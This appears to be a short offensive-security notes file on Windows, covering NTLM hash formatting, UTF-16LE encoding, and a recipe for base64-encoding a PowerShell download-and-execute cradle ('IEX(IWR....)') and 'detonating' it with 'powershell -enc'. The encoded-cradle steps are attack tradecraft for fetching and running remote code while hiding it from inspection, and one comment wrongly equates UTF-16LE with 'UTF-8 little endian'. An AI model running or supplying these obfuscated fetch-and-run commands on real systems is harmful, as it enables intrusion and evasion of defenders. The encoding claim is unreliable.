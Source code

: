 # facts on windows

sort these as the field manual develops

## Hashing on windows
> NTLM hashes
```
LM:NTLM						; lan man : new technology lan manager
aad3...:31d6...				; blank hashes
```
> explanation of above
```
LM is no longer used but is often required for interacting with services; Anything can be put here! So long as its a valid hash
```


## default windows encoding
> default encoding
```
UTF-16le 			; UTF-8 little endian

NECESSARY FOR POWERSHELL ENCODED COMMANDS
```


> encoding the payload
```sh
echo -n 'IEX(IWR....)' | iconv -t UTF-16LE | base64 -w 0

explanation:
	echo is the ps command we doing, new object, invoke-web, w.e.
	-t ; to code
	-w 0 ; all on 1 line
```


> detonating the payload
```sh
powershell -enc 'BASE64_ENCODED_COMMAND'
```

